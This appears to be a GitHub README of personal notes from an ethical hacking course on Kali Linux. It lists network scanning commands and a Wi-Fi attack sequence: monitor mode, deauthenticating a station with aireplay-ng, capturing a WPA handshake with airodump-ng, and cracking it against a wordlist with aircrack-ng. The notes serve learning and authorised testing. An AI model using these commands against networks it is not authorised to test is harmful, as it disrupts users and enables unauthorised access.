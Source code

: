 # udemy-ethical_hacking_kali_linux
## Udemy - Ethical Hacking With Python, JavaScript and Kali Linux  

### In Kali Linux use next tools:  
netdiscover -i eth0 -r 10.0.2.1/24  
zenmap     -- better tool to scan the network (uses nmap as a core command)  
airmon-ng  -- wlan tool that makes possible to cahange status from Managed to Monitor mode  
iwconfig wlan0 mode monitor  -- manually change mode to Monitor (used after executing "ifconfig wlan0 down/up")  
  
fern - GUI application to crack WI-FI  
airodump-ng --bssid --channel 6 --write demo-handshake wlan0mon  --capturing connection handshake  
aireplay-ng --deauth 4 -a (BSSID) -c (STA) wlan0mon  --force disconnect station and capture with previous app WPA handshake  
aircrack-ng demo-handshake-01.cap -w wordlist  --will crack demo-handshake against generated wordlist  